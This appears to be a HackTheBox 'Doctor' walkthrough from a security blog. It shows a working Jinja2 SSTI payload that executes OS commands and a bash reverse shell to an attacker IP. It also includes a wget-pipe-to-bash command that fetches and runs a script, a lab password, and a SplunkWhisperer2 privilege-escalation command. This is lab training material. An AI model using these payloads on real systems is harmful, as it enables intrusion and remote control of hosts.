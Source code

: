 ```yaml
---
layout: post
title: HackTheBox - Doctor
date: 2021-02-07 14:37:03 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, SSTI, reverse-shell, plain text password, splunk, SplunkWhisperer2, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/doctor/Doctor.png
---
```


## Foothold

### Nmap scan (open ports)

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sC -sV -p- 10.10.10.209
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-16 10:19 CET
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.094s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache httpd 2.4.41 (port 80)

When we go to [http://10.10.10.209/](http://10.10.10.209/), one of the first thing we can notice is: 

![web](/assets/img/htb/machines/linux/easy/doctor/web.png)

After adding `doctors.htb` to `/etc/hosts` we have a totally different page:

![doctors.htb domain](/assets/img/htb/machines/linux/easy/doctor/doctors_domain.png)

### SSTI (Server Side Template Injection)

If we check the source code of the main page, we can see there is a link to [http://doctors.htb/archive](http://doctors.htb/archive) (which is commented):

![/archive](/assets/img/htb/machines/linux/easy/doctor/source_archive.png)

After trying many types of injections in [http://doctors.htb/post/new](http://doctors.htb/post/new), we can figure out that the website is vulnerable to templates injections.

As we can see:

![payload in new messages](/assets/img/htb/machines/linux/easy/doctor/post.png)

The payload above leads to this render result in [http://doctors.htb/archive](http://doctors.htb/archive)

![SSTI render result](/assets/img/htb/machines/linux/easy/doctor/SSTI.png)

Now let's do a **reverse shell**.

### Reverse shell

Thanks to the payload above, we can now call give to [http://doctors.htb/archive](http://doctors.htb/archive) another GET parameter: "**include**".

{% highlight python %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{% endhighlight %}

> We inject python templates because the target server is a **Werkzeug server version 1.0.1** using **Python version 3.8.2**

![SSTI payload add input GEt paremeter](/assets/img/htb/machines/linux/easy/doctor/SSTI_payload.png)

This parameter takes a shell command that we want to run, for instance `ls`:

![/archive?input=ls](/assets/img/htb/machines/linux/easy/doctor/input_ls.png)

In order to have a reverse shell, I created a file called **reverse.sh**:

{% highlight bash %}
bash -i >& /dev/tcp/10.10.14.9/4444 0>&1
{% endhighlight %}

On my machine, I ran an HTTP Server:

{% highlight bash %}
$ python3 -m http.server
{% endhighlight %}

If we type this URL on our browser, we have access to a shell on the target server with the user **web**:

`http://doctors.htb/archive?input=wget -O - http://10.10.14.9:8000/reverse.sh | bash`

![reverse shell as web user](/assets/img/htb/machines/linux/easy/doctor/reverse_shell.png)

## User (shaun)

There is another user on the machine: **shaun**.

{% highlight bash %}
web@doctor:~$ cd /home
web@doctor:/home$ ls
shaun
web
web@doctor:/home$ cd shaun
web@doctor:/home/shaun$ ls
user.txt
{% endhighlight %}

I used [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), then I saw this interesting log:

![reset password](/assets/img/htb/machines/linux/easy/doctor/reset_password.png)

{% highlight bash %}
web@doctor:/var/backups$ su - shaun
su - shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
# Spawning a TTY Shell
python3 -c "import pty; pty.spawn('/usr/bin/bash')"
shaun@doctor:~$
shaun@doctor:~$ cat user.txt
cat user.txt
0d5dec4a853e2f82567c3d0792b7a679
{% endhighlight %}

## Root

Remember [nmap scan](#nmap-scan-open-ports) ? We saw that `splunk` is currently running on the target sever: 

![ps auxf - splunkd](/assets/img/htb/machines/linux/easy/doctor/ps_auxf_splunkd.png)

![uncommon passwd files](/assets/img/htb/machines/linux/easy/doctor/uncommon_passwd_files.png)

By looking for _"splunk privilege escalation"_, we find this repo [https://github.com/cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2).

`PySplunkWhisperer2_remote.py` allows us to run a remote payload as `root`:

![Splunk Whispere](/assets/img/htb/machines/linux/easy/doctor/pysplunk.png)

> Payload: `python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.9 --username shaun --password Guitar123 --payload "cat /root/root.txt > /dev/shm/flag; chmod 444 /dev/shm/flag"`

Finally we got the flag:

![Root flag](/assets/img/htb/machines/linux/easy/doctor/root_flag.png)

___

## Useful links

- [PayloadsAllTheThings - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)
